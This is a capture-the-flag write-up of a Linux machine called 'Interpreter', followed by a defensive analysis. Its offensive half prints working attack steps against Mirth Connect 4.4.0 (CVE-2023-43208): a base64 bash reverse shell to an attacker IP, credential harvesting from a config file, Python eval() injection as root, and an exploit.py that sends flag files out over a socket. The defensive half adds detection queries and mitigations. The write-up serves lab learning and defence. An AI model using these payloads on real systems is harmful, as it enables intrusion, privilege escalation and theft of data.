# Interpreter

```
Difficulty: Medium
Operating System: Linux
Services: SSH, HTTP, HTTPS

```

## Summary of Attack Chain

| Step | User / Access   | Technique Used                            | Result                                                                                                     |
| :--: | :-------------- | :---------------------------------------- | :--------------------------------------------------------------------------------------------------------- |
|   1  | Unauthenticated | **Network enumeration (Nmap)**            | Identified **Mirth Connect** Administrator web interface exposed on ports `80` and `443`.                  |
|   2  | Unauthenticated | **Java deserialization (CVE-2023-43208)** | Exploited **XStream** vulnerability to bypass authentication and obtain a reverse shell as `mirth`.        |
|   3  | mirth           | **Credential hunting**                    | Extracted **MariaDB** credentials from `/usr/local/mirthconnect/conf/mirth.properties`.                    |
|   4  | mirth           | **Database enumeration**                  | Dumped the `mc_bdd_prod` database to recover channel configuration XML definitions.                        |
|   5  | mirth           | **Internal routing analysis**             | Reverse-engineered channel configs to identify internal HTTP POST route to `127.0.0.1:54321`.              |
|   6  | mirth           | **Living off the Land (Python urllib)**   | Leveraged built-in Python libraries to interact with the internal API due to missing `curl`.               |
|   7  | mirth           | **Vulnerability discovery**               | Fuzzed `<firstname>` parameter with `{self}`, triggering a backend Python `eval()` exception.              |
|   8  | mirth           | **Regex filter evasion**                  | Encoded a Python reverse shell in Base64 to bypass strict input validation regex.                          |
|   9  | Root            | **Local privilege escalation**            | Injected Base64 payload via `{exec()}` inside XML template, achieving root execution and retrieving flags. |



# Offensive Operations

## Recon

A quick nmap scan reveals three open ports:

```
PORT    STATE SERVICE
22/tcp  open  ssh        OpenSSH 9.2p1
80/tcp  open  http       Jetty (Mirth Connect Administrator)
443/tcp open  ssl/http   Jetty (Mirth Connect Administrator)
```

[nmap_results.nmap](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Interpreter/nmap_results.nmap "Results")


Both port 80 and 443 serve the **Mirth Connect Administrator** web interface. 

[subdomain.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Interpreter/subdomain.txt "Results")


[200.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Interpreter/200.txt "Results")


Hitting the API version endpoint tells us the exact version:

```bash
curl -sk https://[REDACTED]/api/server/version -H 'X-Requested-With: XMLHttpRequest'
# Returns: 4.4.0
```



Mirth Connect 4.4.0 — that's vulnerable to **CVE-2023-43208**, a pre-auth RCE through Java XStream deserialization. This is a well-documented vulnerability with public exploits.

## Foothold — CVE-2023-43208 (Mirth Connect Pre-Auth RCE)

CVE-2023-43208 is a bypass of an earlier patch (CVE-2023-37679). The exploit sends a crafted XML payload to the `/api/users` endpoint that abuses Java's XStream library to deserialize malicious objects, ultimately calling `Runtime.getRuntime().exec()`.

Grabbed the PoC 

[CVE-2023-43208.py](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Interpreter/CVE-2023-43208.py "Results")


One gotcha: `Runtime.exec()` doesn't support shell pipes or redirection. So you can't just do `bash -i >& /dev/tcp/...`. The classic workaround is the base64 brace trick:

```bash
echo 'bash -i >& /dev/tcp/[REDACTED]/9001 0>&1' | base64
```



```bash
python3 CVE-2023-43208.py -u https://[REDACTED] \
  -c "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9bUkVXXXXXXXXXXXXXXXXXXwMDEgMD4mMQo=}|{base64,-d}|{bash,-i}"
```

Shell as **mirth** — a service account that runs the Mirth Connect Java process.



## Enumeration as mirth

The mirth user can't read `user.txt` in `/home/sedric/`. Time to dig around.

### Mirth Connect Config

The Mirth properties file at `/usr/local/mirthconnect/conf/mirth.properties` is a goldmine:

```properties
database = mysql
database.url = jdbc:mariadb://localhost:3306/mc_bdd_prod
database.username = mirthdb
database.password = MirXXXXXXXXXX

keystore.storepass = 5GXXXXXXXXXX
keystore.keypass = tAuXXXXXXXXX
```

[mirth.properties](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Interpreter/mirth_properties "Results")




[shell.upload](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Interpreter/db_dump "Results")


### Database Recon

Using the MySQL creds to poke around the `mc_bdd_prod` database:

```sql
SELECT * FROM PERSON;

SELECT * FROM PERSON_PASSWORD;

mysql -u mirthdb -p'MirXXXXXXXXXX' -e "USE mc_bdd_prod; SELECT ID, NAME, REVISION FROM CHANNEL \G"


mysql -u mirthdb -p'MirXXXXXXXXXX' -e "USE mc_bdd_prod; SELECT CHANNEL FROM CHANNEL WHERE ID='24c915f9-d3e3-462a-a126-3511d3f3cd0a'" > /tmp/interpreter_channel.xml
```

[interpreter_channel.xml](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Interpreter/interpreter_channel.xml "Results")






So `sedric` is the only Mirth user. The password is PBKDF2-SHA256 hashed — not easily crackable. The DB password and keystore passwords don't work for SSH either.


### Internal Services

Checking listening ports reveals something interesting:

```
LISTEN 127.0.0.1:54321   (python3)
LISTEN 0.0.0.0:6661      (java - Mirth channel)
```



Analyzing the XML channel dump revealed exactly how the system operates. The channel "INTERPRETER - HL7 TO XML TO NOTIFY" listens for raw HL7 data on port 6661, uses a MessageBuilder to transform it into XML, and then blindly POSTs that XML to the internal Flask app at http://127.0.0.1:54321/addPatient. Instead of trying to forge complex HL7 messages on port 6661, I can cut Mirth out of the loop entirely and attack the Flask app directly.

I extracted the outbound XML template (base64-encoded in the channel config) to see the exact structure the Flask app expects:

```XML
<patient>
  <timestamp></timestamp>
  <sender_app></sender_app>
  <id></id>
  <firstname></firstname>
  <lastname></lastname>
  <birth_date></birth_date>
  <gender></gender>
</patient>
```

Port **54321** is an internal Flask/Werkzeug web server. Port **6661** is a Mirth channel listening for HL7 messages over TCP.

There's also a script running as **root**:

```
root  3576  /usr/bin/python3 /usr/local/bin/notif.py
```

The file `/usr/local/bin/notif.py` is owned by `root:sedric` with permissions `rwxr-x`, so `mirth` can't read it.

### The Mirth Channel

The Mirth channel "INTERPRETER - HL7 TO XML TO NOTIFY" does the following:

1. Listens for HL7 messages on TCP port 6661 (MLLP framing)
2. Transforms HL7 fields into XML using MessageBuilder steps
3. POSTs the XML to `http://127.0.0.1:54321/addPatient`

I extracted the outbound XML template (it was base64-encoded in the channel config):

```xml
<patient>
  <timestamp></timestamp>
  <sender_app></sender_app>
  <id></id>
  <firstname></firstname>
  <lastname></lastname>
  <birth_date></birth_date>
  <gender></gender>
</patient>
```

## Privesc 

### Probing the Flask App

Since I can reach port 54321 from the mirth shell, I started sending XML to `/addPatient`. After figuring out the right field names and date format (`MM/DD/YYYY`), a valid request looks like:

```xml
<patient>
  <timestamp>20250101120000</timestamp>
  <sender_app>TEST</sender_app>
  <id>12345</id>
  <firstname>John</firstname>
  <lastname>Doe</lastname>
  <birth_date>01/01/1990</birth_date>
  <gender>M</gender>
</patient>
```

Response:
```
Patient John Doe (M), 36 years old, received from TEST at 20250101120000
```

Our input is reflected in the output. Time to test for injection.

### Discovering the eval()

The target machine had curl completely removed from the environment. To test the internal Flask API, I had to "live off the land" using Python 3's native urllib.request module directly from the reverse shell.

After figuring out the right field names and date format (MM/DD/YYYY), a valid request looks like:

```Python

python3 -c
import urllib.request
data = b"""<patient>
  <timestamp>20250101120000</timestamp>
  <sender_app>TEST</sender_app>
  <id>12345</id>
  <firstname>John</firstname>
  <lastname>Doe</lastname>
  <birth_date>01/01/1990</birth_date>
  <gender>M</gender>
</patient>"""
req = urllib.request.Request("http://127.0.0.1:54321/addPatient", data=data, headers={"Content-Type": "application/xml"})
print(urllib.request.urlopen(req).read().decode())

Patient John Doe (M), 36 years old, received from TEST at 20250101120000
```





Sending `{{config}}` as the firstname returned `{config}` — in Python, double curly braces `{{` escape to a literal `{` during string formatting. That means something is formatting our input.

Then I sent `{0}` as the firstname and got `0` back. Sending `{self}` returned:

```
[EVAL_ERROR] name 'self' is not defined
```

That's a **Python eval() error message**. The app is evaluating our input as Python code between the braces.

### Code Execution as Root

Testing with:

```
{__import__("os").popen("id").read()}
```

Returns:

```
Patient uid=0(root) gid=0(root) groups=0(root) Doe (M), 36 years old...
```

We have **root-level code execution** through the Flask app.

### The Vulnerable Code

After exfiltrating `notif.py`, the vulnerability is clear:

```python
def template(first, last, sender, ts, dob, gender):
    pattern = re.compile(r"^[a-zA-Z0-9._'\"(){}=+/]+$")
    for s in [first, last, sender, ts, dob, gender]:
        if not pattern.fullmatch(s):
            return "[INVALID_INPUT]"
    # ...
    template = f"Patient {first} {last} ({gender}), {{datetime.now().year - year_of_birth}} years old, received from {sender} at {ts}"
    try:
        return eval(f"f'''{template}'''")
    except Exception as e:
        return f"[EVAL_ERROR] {e}"
```

The app builds an f-string by embedding user input, then passes the whole thing to `eval()`. The input validation regex allows `{` and `}`, so we can inject arbitrary Python expressions that get evaluated.

```python

python3 -c 
import urllib.request

data = b"""<patient>
  <timestamp>20250101120000</timestamp>
  <sender_app>TEST</sender_app>
  <id>12345</id>
  <firstname>{exec(__import__("base64").b64decode("YOUR_BASE64_STRING").decode())}</firstname>
  <lastname>Doe</lastname>
  <birth_date>01/01/1990</birth_date>
  <gender>M</gender>
</patient>"""

req = urllib.request.Request("http://127.0.0.1:54321/addPatient", data=data, headers={"Content-Type": "application/xml"})
try:
    urllib.request.urlopen(req)
except Exception as e:
    pass

```

[grab_flags.py](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Interpreter/grab_flags.py "Results")


### Grabbing the Flags

Direct command output with slashes or special characters gets caught by the input regex. The workaround is using `exec()` with a base64-encoded Python script that opens a socket back to us and sends the file contents directly:

Base64-encode that script, then inject:

```
{exec(__import__("base64").b64decode("...encoded script...").decode())}
```


```python (PoC)
cat << 'EOF' > exploit.py
import urllib.request
import base64

kali_ip = '10.10.XX.XX'
kali_port = 9004

root_payload = f"""import os, socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('{kali_ip}', {kali_port}))
s.send(b" USER.TXT \\n")
s.send(open('/home/sedric/user.txt', 'rb').read() + b"\\n")
s.send(b" ROOT.TXT \\n")
s.send(open('/root/root.txt', 'rb').read() + b"\\n")
s.close()
"""

b64_payload = base64.b64encode(root_payload.encode()).decode()

injection = f'{{exec(__import__("base64").b64decode("{b64_payload}").decode())}}'

xml_data = f"""<patient>
  <timestamp>20250101120000</timestamp>
  <sender_app>TEST</sender_app>
  <id>12345</id>
  <firstname>{injection}</firstname>
  <lastname>Doe</lastname>
  <birth_date>01/01/1990</birth_date>
  <gender>M</gender>
</patient>"""

print("[*] Firing payload at http://127.0.0.1:54321/addPatient...")
req = urllib.request.Request(
    "http://127.0.0.1:54321/addPatient", 
    data=xml_data.encode(), 
    headers={"Content-Type": "application/xml"}
)

try:
    urllib.request.urlopen(req)
except Exception as e:
    print(f"[+] Exploit triggered! Check your Netcat listener on port {kali_port}.")
EOF
```

[exploit.py](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Interpreter/exploit.py "Results")


Got Flags




# Defensive Operations

## Strategic Overview

* **1.1 Definition:** Exploitation of unauthenticated Java deserialization in a healthcare data integration platform (Mirth Connect), followed by lateral movement and privilege escalation via an internal API vulnerable to Python dynamic execution injection.
* **1.2 Impact:** Complete System Compromise / Root Access.
* **1.3 The Scenario:** An external threat actor leverages CVE-2023-43208 to achieve initial access as the `mirth` service account. By extracting database credentials and reverse-engineering an internal MLLP-to-HTTP message channel, the actor bypasses external firewalls and directly attacks an internal Flask web application running as `root`, using a Base64-encoded payload to bypass input regex filters.


## System Architecture & Theory

* **2.1 Protocol Environment:** Linux, Java (Mirth Connect), MariaDB, Python 3 (Flask/Werkzeug), MLLP (HL7), and XML.
* **2.2 Attack Logic Flow:**

> [External Web (Port 443)] -> [Java XStream Deserialization] -> [mirth Service Account] -> [Internal MLLP/HTTP Channel Reversing] -> [Flask Web API (Port 54321)] -> [Python eval() Injection] -> [Root Execution]

* **2.3 Theoretical Analogy:** Bypassing a bank's reinforced exterior vault, locating the security guard's internal radio manual, and broadcasting a formatted, authorized transmission that tricks the central automated system into opening all interior doors.


## Attack Vector


| Attribute                  | Technical Details                                                                                                                                                 |
| :------------------------- | :---------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers**    | `/api/users` endpoint<br><br>Port `6661` (MLLP)<br>Port `54321` (Internal HTTP service)<br>Mirth Channel IDs (stored in `mc_bdd_prod`)                            |
| **Critical Vulnerability** | **Unsafe Java deserialization (CVE-2023-43208)** via XStream.<br><br>**Unsafe dynamic string evaluation** using Python `eval(f-string)` on unsanitized XML input. |
| **Offensive Action**       | Deserialization RCE → Database extraction → Internal API discovery → Base64-encoded Python reverse shell injection → Privilege escalation via `{exec()}`          |

### Prerequisites

* **Access Level:** Unauthenticated external access (initial foothold), local service account access (privilege escalation).
* **Connectivity:** Ingress TCP Ports `80/443`, Loopback TCP Port `54321`.
* **Target State:** Mirth Connect version `4.4.0` deployed; Root-owned Flask API explicitly trusting `127.0.0.1` traffic without authentication.


## Threat Hunting & Anamoly Analysis

* **Hunt Hypothesis:** Adversaries exploiting Mirth Connect will spawn anomalous child processes (e.g., `bash`, `python3`) directly from the Java service daemon, accompanied by internally bound HTTP traffic to non-standard local ports originating from native script interpreters.
* **Behavioral Outliers:** The `java` process executing shell constructs with brace expansion (`{echo,...}|{base64,...}`). Furthermore, the local `python3` process executing `bash -c` or spawning sockets immediately after processing an inbound HTTP POST request on the loopback interface.
* **Toxic Combinations:** A service account (`mirth`) with read access to cleartext database credentials combined with an internal root-level service binding to `localhost` with zero authentication mechanisms.


## Detection Engineering

* **Telemetry Gap Analysis:** Linux Auditd (`execve` - Event 59), EDR Process Creation (Sysmon for Linux Event ID 1), Network Connections (Sysmon for Linux Event ID 3 for `127.0.0.1:54321`).
* **Detection-as-Code (KQL):**

```kql
// Detect suspicious child processes spawned from Mirth Connect Java process utilizing brace expansion or base64 decoding
DeviceProcessEvents
| where InitiatingProcessFileName == "java"
| where InitiatingProcessCommandLine contains "mirthconnect"
| where FileName in ("bash", "sh")
| where ProcessCommandLine contains "{echo" and ProcessCommandLine contains "base64"
| project Timestamp, DeviceName, InitiatingProcessFileName, FileName, ProcessCommandLine

```

* **Resilience Test:** An adversary could evade the specific `{echo}` brace expansion signature by writing a Java native payload to disk or utilizing purely in-memory Java execution streams.
* **Sub-Rule:** Monitor for abnormal network connections originating from the `java` process to internal loopback addresses on non-standard ports, or monitor the internal Flask process (`notif.py`) spawning standard shells.


## Toolkit & Implementation

* **Automation:** Python PoC (`CVE-2023-43208.py`), `mysql`/`mysqldump`, Python 3 `urllib` (Living off the Land), `base64`, `nc`.
* **OPSEC Analysis:** Utilizing native Python `urllib` instead of relying on `curl` minimizes the binary execution footprint on disk and avoids alerting on missing binary execution failures. Bypassing bad characters with Base64 encoding cleanly evades simple static regex validation `^[a-zA-Z0-9._'\"(){}=+/]+$`.
* **Post-Exploitation:** File read operations (`open().read()`) converted directly into a socket stream to extract `user.txt` and `root.txt` without requiring an interactive TTY, minimizing time-on-target.


## Defensive Mitigation

* **Technical Hardening:** 1. Upgrade Mirth Connect to version `4.4.1` or later to mitigate XStream deserialization flaws.
2. Refactor `/usr/local/bin/notif.py` to replace `eval()` with `ast.literal_eval()` or strictly formatted f-strings without dynamic evaluation.
3. Implement local authentication mechanisms (e.g., JWT or mutual TLS) for the internal Flask API.
* **Personnel Focus:** Enforce secure coding practices emphasizing the total restriction of functions like `eval()` and `exec()` when handling user-controlled data, regardless of input sanitization routines.


## Quick Action Playbook

|  Step  | Objective                | Technical Command / Logic                                                                                                       |
| :----: | :----------------------- | :------------------------------------------------------------------------------------------------------------------------------ |
| **01** | **Enumerate database**   | `mysql -u mirthdb -p'<PASS>' -e "USE mc_bdd_prod; SELECT CHANNEL FROM CHANNEL WHERE ID='<ID>'"`                                 |
| **02** | **Exploit internal API** | `req = urllib.request.Request("http://127.0.0.1:54321/addPatient", data=xml_data, headers={"Content-Type": "application/xml"})` |
| **03** | **Escalate / Persist**   | `{exec(__import__("base64").b64decode("<BASE64_PAYLOAD>").decode())}`                                                           |
